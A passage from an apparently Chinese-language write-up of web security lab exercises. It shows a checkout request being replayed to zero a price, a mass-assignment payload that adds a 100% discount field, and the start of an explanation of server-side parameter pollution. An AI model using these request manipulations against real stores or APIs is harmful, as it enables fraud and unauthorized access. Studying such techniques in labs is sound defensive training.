 然后再抓一个包，用这个包覆盖那个包

这样价格变成了0，可以购买

## 2、利用大规模分配漏洞

在购买的时候，前后抓到两个包：

```
POST /api/checkout
GET /api/checkout
```

POST /api/checkout 会发送购买商品的相关信息：

```
{"chosen_products":[{"product_id":"1","quantity":1}]}
```

GET /api/checkout 会返回这次交易的相关信息：

```

{"chosen_discount":{"percentage":0},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":1,"item_price":133700}]}
```

在POST请求体中加上

```
"chosen_discount":{"percentage":100},
```

价格变成0，购买成功

## 3、服务器端参数污染

某些系统包含无法通过互联网直接访问的内部 API。当网站将用户输入嵌入到未经过充分编码的内部 API 的服务器端请求中时，就会发生服务器端参数污染。这意味着攻击者可能能够操纵或注入参数

### 测试查询字符串中的服务器端参数污染

要测试查询字符串中的服务器端参数污染，请将查询语法字符（如 `#` 、 `&` 、和 `=` 在您的输入中，并观察应用程序如何响应。

这里给的一个例子：

假设有一个存在漏洞的应用程序，它允许你根据用户名搜索其他用户。当你搜索某个用户时，你的浏览器会发出以下请求：

```
GET /userSearch?name=peter&back=/home
```

为了检索用户信息，服务器使用以下请求查询内部 API：

```
GET /users/search?name=peter&publicProfile=true
```

您可以使用 URL 编码的 `#` 字符尝试截断服务器端请求。为了帮助您解释响应，您还可以在 `#` 字符后添加一个字符串。

例如，您可以将查询字符串修改为以下内容：
